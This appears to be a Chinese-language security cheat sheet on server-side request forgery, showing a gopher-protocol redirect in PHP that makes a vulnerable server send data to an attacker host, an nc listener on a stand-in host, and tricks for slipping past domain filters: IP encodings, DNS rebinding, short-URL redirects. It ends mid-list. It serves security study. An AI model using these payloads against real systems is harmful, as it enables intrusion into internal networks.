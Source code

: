 ### gopher协议 - 利用原理

前提：存在SSRF漏洞的web后端所在的服务器支持gopher协议.

攻击者构造http请求中如`gopher://`的payload，发送给web后端，在其服务器上解析gopher协议并向内网主机(或任何网络可达的主机)的任意的端口发送应用层数据。

先在攻击者公网主机ReciveData.com上监听1337端口，看一会能否收到数据:
```
evil.com:# nc -lvp 1337
```

gopher.php (在攻击者的公网web服务器gopher.com上) :
如果有http请求访问 http://gopher.com/gopher.php 则httpResponse将会是一个301、302跳转，使用gopher协议对某主机的某端口发送数据。
```
<?php
  header('Location: gopher://ReciveData.com:1337/_Hi%0Assrf');
?>
```

攻击者构造http请求，试图让 存在SSRF漏洞的web后端所在的服务器 去访问 http://gopher.com/gopher.php


测试结果，攻击者公网主机ReciveData.com的1337端口，收到了 存在SSRF漏洞的web后端所在的服务器 发来的数据：
```
Hi
ssrf
```

[SSRF Tips](http://blog.safebuff.com/2016/07/03/SSRF-Tips/) `SSRF PHP function` `SFTP Dict gopher TFTP file ldap`


### 绕过技巧

绕过不严谨的"域名校验编程实现"
 * 使用@ `a.com@10.10.10.10` `a.com:b@10.10.10.10`
 * IP地址的不同形式 - 进制转换
   * 十进制形式 `127.0.0.1 <-> 2130706433` 计算方法`(127)*256^3+(0)*256^2+(0)*256^1+(1)*256^0=2130706433`  `(21)*256^1+(200)=5576` 如bing的外网IP转换为十进制形式 `13.107.21.200 <-> 13.107.5576 <-> 13.7017928 <-> 225121736`
   * 十六进制形式 `13.107.21.200 <-> 0xD6B15C8`
   * 混合各形式 如八进制.十进制 `13.107.21.200 <-> 015.7017928`
 * 自定义域名解析 利用项目[xip.name](https://github.com/peterhellberg/xip.name)实现
   * `127.0.0.1 <-> http://2130706433.xip.name`支持十进制.    支持任意前缀`ping qq.com.127.0.0.1.xip.name`
   * `10.100.21.7 <-> http://10.100.21.7.xip.io`
   * [有道翻译SSRF修复不完整再通内网](https://www.secpulse.com/archives/50153.html)
 * DNS重绑定(DNS Rebinding) **重点**
   * 攻击者提交参数值`hack.com`给后端
   * 后端验证:对`hack.com`进行第1次域名解析 得到了合法的外网ip(hack.com的DNS服务器设置为TTL=0) 该域名对应的ip非内网 域名验证通过
   * 攻击者修改域名解析:(攻击者利用短暂的时间差 快速把域名解析结果ip改成为内网ip)
   * 后端逻辑继续运行:后端的程序逻辑继续使用刚才的域名hack.com(由于hack.com的DNS服务器设置的TTL为0 后端只能第2次对hack.com进行域名解析)
   * 后端使用了解析得到的内网ip
 * 短网址跳转 - "短网址"响应(301 永久重定向)到内网地址 `http://10.10.116.11 => http://t.cn/RwbLKDx` [有道翻译SSRF修复不完整再通内网](https://www.secpulse.com/archives/50153.html)
 * JS跳转
 * 以下工具

